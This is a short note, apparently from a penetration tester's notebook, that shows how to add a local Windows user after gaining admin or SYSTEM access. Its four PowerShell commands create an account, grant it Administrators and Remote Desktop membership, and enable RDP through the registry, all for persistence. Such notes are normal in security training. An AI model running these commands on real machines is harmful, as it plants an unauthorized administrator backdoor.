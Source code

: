 # How to Quickly Add a User on Windows

author:: Nathan Acks  
date:: 2022-04-25

If you’ve got SYSTEM (or just even local admin) on a Windows box, you can quickly add a new user from your shell for persistence and/or RDP access (useful for Impacket, etc.).

```powershell
net user $USERNAME $PASSWORD /add
net localgroup Administrators $USER /add
net localgroup "Remote Desktop Users" $USER /add
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

## References

* [Alice with Siddicky (Student Mentor) (YouTube)](https://www.youtube.com/watch?v=Zma6Mk5bEI8)
